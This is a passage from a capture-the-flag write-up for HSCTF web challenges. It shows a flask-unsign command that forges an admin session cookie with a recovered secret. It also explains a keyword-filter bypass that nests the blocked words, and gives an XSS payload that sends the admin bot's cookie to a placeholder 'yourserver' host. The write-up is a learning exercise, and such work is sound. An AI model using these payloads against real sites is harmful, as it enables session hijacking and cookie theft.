 ‘p6’ is the secret key used!!.

Now , we have to sign the token using this secretkey

```python
flask-unsign --sign --cookie "{'name': 'admin'}" --secret 'p6'

eyJuYW1lIjoiYWRtaW4ifQ.ZH7d-w.YF2iU4MpkmE9CXkCE8lIGenZ_Pc
```

So using this token , we can able to get the flag !!.

## Chall 5 →**fancy-page**

link : [http://fancy-page.hsctf.com/](http://fancy-page.hsctf.com/)

Description : hmmm

**Solution:**

In this webpage , we can able to create a content and send that content to the admin bot.

So, if we popup XSS , we can able to steal any info from the admin bot!!.

They gave the source code of the challenge.

```jsx
import { default as Arg } from "https://cdn.jsdelivr.net/npm/@vunamhung/arg.js@1.4.0/+esm";

function sanitize(content) {
	return content.replace(/script|on|iframe|object|embed|cookie/gi, "");
}

let title = document.getElementById("title");
let content = document.getElementById("content");

function display() {
	title.textContent = Arg("title");
	document.title = Arg("title");

	let sanitized = sanitize(Arg("content"));
	content.innerHTML = sanitized;

	document.body.style.backgroundColor = Arg("background_color");
	document.body.style.color = Arg("color");
	document.body.style.fontFamily = Arg("font");
	content.style.fontSize = Arg("font_size") + "px";
}

display();
```

On inspecting the display.js , it replaces the script,on,iframe,object,embed,cookie elements to “”.

so, what if we give the input like scrscriptipt. It removes the script string inside that string and it became again script !!.

So, the actual payload is 

```jsx
<img src=x oonnerror=this.src='http://yourserver/?'+document.coocookiekie;>
```

submit the created content url to the bot server.!!

Here is the flag :
`flag{filter_fail}`
